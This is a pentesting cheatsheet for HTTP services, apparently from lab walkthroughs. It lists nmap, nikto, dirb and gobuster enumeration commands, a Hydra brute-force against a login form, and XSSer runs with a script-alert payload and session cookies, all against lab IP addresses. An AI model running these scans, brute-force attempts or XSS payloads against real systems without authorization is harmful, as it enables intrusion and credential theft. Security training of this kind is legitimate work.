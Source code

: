 ```yaml
---
description: Cheatsheets for HTTP
---
```


# 80 - Pentesting HTTP

### Nmap Scripts

```bash
#Find out the version using nmap.
nmap -sV -script banner 192.30.247.3
#Running http-enum nmap script to discover interesting directories.
nmap --script http-enum -sV -p 80 10.0.28.146
#Running Header script to get the IIS server header information
nmap --script http-headers -sV -p 80 10.0.28.146
#Running http-methods script on /webdav path to discover all allowed methods.
nmap --script http-methods --script-args http-methods.url-path=/webdav/ 10.0.28.146
#Running webdav scan Nmap script to identify WebDAV installations the script uses the OPTIONS and PROPFIND methods to detect it.
nmap --script http-webdav-scan --script-args http-methods.url-path=/webdav/ 10.0.28.146
```

### Gathering Information

```bash
#Check what web app is hosted on the web server using curl command.
curl http://192.30.247.3/
#Check what web app is hosted on the web server using wget command.
wget "http://192.30.247.3/index"
#Running whatweb tool to find all possible information about the target server.
whatweb 10.0.29.163
#We could also use the httpie tool to gather target server information.
http 10.0.29.163
#We have found all the basic details about the target server without using the browser. We could also use browsh "A fully-modern text-based browser, rendering to TTY and browsers"
browsh --startup-url http://10.0.29.163/Default.aspx
#Check what web app is hosted on the web server using lynx CLI based browser.
lynx http://192.30.247.3
```

### Nikto

{% code overflow="wrap" %}
```bash
nikto -h http://192.230.148.3
#Check for the Remote File Retrieval in verbose mode:
nikto -h http://192.230.148.3/index.php?page=arbitrary-file-inclusion.php -Tuning 5 -Display V
#Saving the scan result as an HTML file:
nikto -h http://192.230.148.3/index.php?page=arbitrary-file-inclusion.php -Tuning 5
-o nikto.html -Format htm
```
{% endcode %}

### dirb

{% code overflow="wrap" %}
```bash
#Enumerate server’s directories and subdirectories.
dirb http://10.0.29.163
#With custom wordlists
dirb http://192.30.247.3 /usr/share/metasploit-framework/data/wordlists/directory.txt
```
{% endcode %}

### Gobuster

{% code overflow="wrap" %}
```bash
#-u flag is used to specify the URL of the target whereas the -w flag is used to specify the wordlist with its full path.
gobuster dir -u http://192.156.207.3 -w /usr/share/wordlists/dirb/common.txt
#The -b flag is used to specify the status codes which has to be ignored
gobuster dir -u http://192.156.207.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404
#-x flag is used to find the files which have the specified extensions. -r flag is used to specify to follow any redirects or 302 status code pages.
gobuster dir -u http://192.156.207.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
# the '/data' directory is appended in the target URL. The gobuster will start scanning from the /data directory.
gobuster dir -u http://192.156.207.3/data -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
```
{% endcode %}

### Hydra

{% code overflow="wrap" %}
```bash
#Attacking HTTP Login Form with Hydra
hydra -L usernames.txt -P passwords.txt 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
#Following the form parameters is the invalid login message so that hydra knows that the credentials it tried were invalid!
```
{% endcode %}

### XSSER

{% code overflow="wrap" fullWidth="false" %}
```bash
#https://github.com/epsylon/xsser
#Trying various XSS payloads by using XSSer's “--auto” option.
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
#Using custom XSS payload.
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
#find XSS in Authentication
xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" -- cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"
##Using custom XSS payload.
xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"
```
{% endcode %}

Reference:

* [https://assets.ine.com/labs/ad-manuals/walkthrough-1889.pdf](https://assets.ine.com/labs/ad-manuals/walkthrough-1889.pdf)
* [https://assets.ine.com/labs/ad-manuals/walkthrough-1892.pdf](https://assets.ine.com/labs/ad-manuals/walkthrough-1892.pdf)
